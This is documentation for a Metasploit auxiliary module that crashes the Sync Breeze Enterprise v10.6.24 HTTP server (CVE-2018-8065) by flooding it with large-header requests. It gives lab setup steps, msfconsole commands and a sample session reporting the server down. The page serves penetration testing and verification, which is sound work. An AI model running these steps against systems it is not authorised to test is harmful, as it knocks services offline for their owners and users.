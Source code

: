 ## Description
This module triggers a Denial of Service vulnerability in the Sync Breeze Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Sync Breeze Enterprise v10.6.24
this software is vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

**Vulnerable Application Link** 
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe

## Vulnerable Application Installation Setup.
Download Application : ```http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/syncbreeze_enterprise_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/syncbreeze_enterprise_dos 
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[-] 192.168.1.20:80 - Connection reset !
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```
